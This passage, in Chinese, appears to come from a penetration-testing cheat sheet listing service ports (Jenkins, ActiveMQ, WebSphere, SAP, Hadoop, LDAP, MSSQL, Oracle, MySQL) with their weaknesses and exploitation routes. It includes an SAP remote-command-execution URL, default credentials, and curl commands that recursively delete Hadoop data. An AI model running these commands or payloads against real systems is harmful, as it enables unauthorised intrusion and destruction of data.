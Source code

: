 **8080 端口（Jenkins）**

```
安全漏洞：未授权访问 、远程代码执行
利用方式：访问如下url，可以执行脚本命令，反弹shell，写入webshell等。http://<target>:8080/managehttp://<target>:8080/script
```

**8161 端口（ActiveMQ）**

```
安全漏洞：弱口令、任意文件写入、反序列化
利用方式：默认密码admin/admin登陆控制台、写入webshell、上传ssh key等方式。
```

_**\\**_**9043 端口（webSphere）\*\***

```
安全漏洞：控制台弱口令、远程代码执行
后台地址：https://:9043/ibm/console/logon.jsp
```

**\*\\**\*\*\*50000 端口 （SAP）\*\*\*\*\*_\*_

```
安全漏洞：远程代码执行利用方式：攻击者通过构造url请求，实现远程代码执行。POC:http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all
```

**50070 端口（hadoop）**

```
安全漏洞：未授权访问
利用方式：攻击者可以通过命令行操作多个目录下的数据，如进行删除操作。curl -i -X DELETE “http://ip:50070/webhdfs/v1/tmp?op=DELETE&recursive=true“curl -i -X PUT “http://ip:50070/webhdfs/v1/NODATA4U_SECUREYOURSHIT?op=MKDIRS“
```

### **3、数据库端口**

**389 端口（ldap）**

```
安全漏洞：未授权访问 、弱口令
利用方式：通过LdapBrowser工具直接连入。
```

**1433 端口（Mssql）**

```
安全漏洞：弱口令、暴力破解
利用方式：差异备份getshell、SA账户提权等
```

**1521 端口（Oracle）**

```
安全漏洞：弱口令、暴力破解
利用方式：通过弱口令/暴力破解进行入侵。
```

**3306 端口（MySQL）**

```
安全漏洞：弱口令、暴力破解
利用方式：利用日志写入webshell、udf提权、mof提权等。
```
